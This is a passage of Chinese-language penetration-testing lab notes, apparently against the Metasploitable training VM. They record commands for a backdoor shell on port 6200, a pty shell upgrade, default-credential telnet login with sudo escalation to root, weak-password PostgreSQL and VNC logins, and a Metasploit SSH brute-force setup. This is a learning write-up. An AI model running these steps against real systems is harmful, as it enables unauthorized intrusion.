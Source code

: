             - ![image](https://hackmd.io/_uploads/SJqlnl6Mkg.png)

        - 開第二個 terminal
            - telnet 192.168.75.131 6200
                - 連上 6200 port
            - 發現可連上，可輸入command line
            - id;
                - 檢查目前使用者的身份
            - python -c 'import pty;pty.spawn("/bin/bash")';
                - 這段 Python 指令用於獲取pseudo-terminal
            - ![image](https://hackmd.io/_uploads/B1Byhl6zyl.png)

- telnet
    - sudo nmap -sV 192.168.1.5
        - 看到Linux telnetd版本未提供具體版本信息
    - sudo msfconsole
    - searchsploit telnetd
        - 沒有直接適用於該版本的漏洞利用
    - telnet 192.168.75.131
        - 嘗試使用默認憑據進行登錄
        - 就看到登入憑證
        - ![image](https://hackmd.io/_uploads/S1l-G1MTMke.png)
    - whoami
        - 發現用戶身分為 msfadmin
    - sudo su
        - 提升權限
        - Password: msfadmin
    - whoami
        - 取得root用戶身分
    - 結論
        - 訊息洩露漏洞，通過暴露的默認憑據進行利用。
        - 在現實中，這樣的漏洞較少見

- PostgreSQL
    - 弱密碼攻擊
    - psql -h 10.0.0.112 -U postgres
        - password: msfadmin

- vnc
    - 弱密碼攻擊
    - vncviewer 10.0.0.112
        - password: password

- OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    - 思路:暴力破解
    - cd /usr/share/metasploit-framework/data/wordlists/
    - ls
    - sudo msfconsole
        - search ssh_login
            - ![image](https://hackmd.io/_uploads/rkLlgZTMyl.png)
            - 搜尋 ssh login 攻擊的payload
        - use auxiliary/scanner/ssh/ssh_login
            - 選擇 payload
        - show options
            - 查看參數
            - yes為必填
        - set RHOST 192.168.75.131
            - 設置目標機 ip
        - set userpass_file /usr/share/metasploit-framework/data/wordlists/piata_ssh_userpass.txt
            - 設定 username password 字典
        - mousepad /usr/share/metasploit-framework/data/wordlists/piata_ssh_userpass.txt
            - 開另一個 terminal 查看
        - set verbose false
            - 避免輸出太多大量資訊
        - show options
            - 確認參數配置